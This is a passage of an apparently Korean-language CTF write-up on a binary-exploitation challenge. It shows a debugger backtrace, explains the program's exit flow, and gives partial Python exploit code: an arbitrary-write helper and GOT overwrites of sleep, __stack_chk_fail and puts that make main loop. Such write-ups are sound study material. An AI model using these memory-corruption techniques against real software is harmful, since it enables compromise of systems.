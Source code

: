 ```
#3  0x00007f074d31a12a in __GI_exit (status=<optimized out>) at exit.c:139
#4  0x00007f074d2f8c8e in __libc_start_main (main=0x4005d3, argc=0x1, argv=0x7ffe9eb3da38, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffe9eb3da28)
    at ../csu/libc-start.c:344
#5  0x000000000040066a in ?? ()
```

`main()`이 리턴되고 나서는 `_dl_fini()` 내부에서 `no_brute()`를 호출한다. 이 함수는 1초동안 대기한 후 `"no brute"`를 출력하고 리턴된다.

## Exploit

```python
# ex) 1234 -> '4321'
def reverse(n):
    result = ''

    digits = 0
    while 1:
        if int(n / (10 ** digits)) == 0:
            break
        else:
            digits += 1
    
    for digit in range(digits):
        number = int(n / (10 ** (digits - digit - 1)))
        result = str(number) + result
        n %= (10 ** (digits - digit - 1))

    return result

# write 1byte value on addr
def aaw(addr, value):
    r.sendline(str(reverse(value)))
    r.sendline(str(reverse(addr)))
```

### Make loop

한 번의 AAW로는 익스플로잇을 할 수 없기 때문에 함수들의 GOT를 조작하여 `main()`이 여러 번 반복되도록 만든다. 뒤에서 `setbuf()`를 덮어서 써야 하는데 `main()`의 `setbuf()`를 호출하지 않으려면 `0x400600`보다 큰 주소로 점프해야 한다.

![image](https://user-images.githubusercontent.com/102066383/163415866-e8983625-dd7a-4cf2-95db-bdee1bfd1148.png)

따라서 먼저 `sleep()`의 GOT를 `0x4005f6`으로 덮어서 `main+0x23`으로 돌리고, 그 다음에 `puts()`의 GOT를 `0x400606`으로 덮어서 `setbuf()`를 호출하는 주소보다 뒤쪽으로 점프하도록 만든다.

```python
# make loop

# sleep() -> main+0x23
aaw(sleep_got, (main + 0x23) & 0xff)

# __stack_chk_fail() -> main+0x23
aaw(__stack_chk_fail_got, (main + 0x23) & 0xff)

# puts() -> main+0x33
aaw(puts_got, (main + 0x33) & 0xff)
aaw(puts_got + 1, ((main + 0x33) & 0xff00) >> 8)

# __stack_chk_fail() -> no_brute+0x3e (jmp puts@plt -> main+0x33)
aaw(__stack_chk_fail_got, (no_brute + 0x3e) & 0xff)
```
